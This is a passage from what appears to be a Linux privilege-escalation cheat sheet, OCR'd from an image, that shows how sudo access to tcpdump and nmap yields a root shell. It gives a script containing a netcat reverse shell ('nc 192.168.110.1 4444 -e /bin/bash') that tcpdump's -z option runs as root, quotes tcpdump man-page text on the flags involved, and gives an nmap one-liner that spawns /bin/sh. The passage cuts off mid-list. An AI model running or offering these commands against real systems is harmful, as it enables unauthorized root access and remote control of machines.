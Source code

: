 Create a temp.sh \( which contains the commands to executed as root \)

```
id
/bin/nc 192.168.110.1 4444 -e /bin/bash
```

Execute the command

```
sudo tcpdump -i eth0 -w /dev/null -W 1 -G 1 -z ./temp.sh -Z root
```

where

```
-C file_size : Before  writing a raw packet to a savefile, check whether the file is currently larger than file_size and, if so, close the current savefile and open a new one.  Savefiles after the first savefile will have the name specified with the -w flag, with a number after it, starting at 1 and continuing upward.  The units of file_size are millions of bytes (1,000,000 bytes, not 1,048,576 bytes).

-W Used  in conjunction with the -C option, this will limit the number of files created to the specified number, and begin overwriting files from the beginning, thus creating a 'rotating' buffer.  In addition, it will name the files with enough leading 0s to support the maximum number of files, allowing them to sort correctly. Used in conjunction with the -G option, this will limit the number of rotated dump files that get created, exiting with status 0 when reaching the limit. If used with -C as well, the behavior will result in cyclical files per timeslice.

-z postrotate-command Used in conjunction with the -C or -G options, this will make tcpdump run " postrotate-command file " where file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip will compress each savefile using gzip or bzip2.

Note that tcpdump will run the command in parallel to the capture, using the lowest priority so that this doesn't disturb the capture process.

And in case you would like to use a command that itself takes flags or different arguments, you can always write a shell script that will take the savefile name as the only argument, make the flags &  arguments arrangements and execute the command that you want.

 -Z user
 --relinquish-privileges=user If tcpdump is running as root, after opening the capture device or input savefile, but before opening any savefiles for output, change the user ID to user and the group ID to the primary group of user.

 This behavior can also be enabled by default at compile time.
```

##### nmap

```
nmap --script <(echo 'require "os".execute "/bin/sh"')
```

or
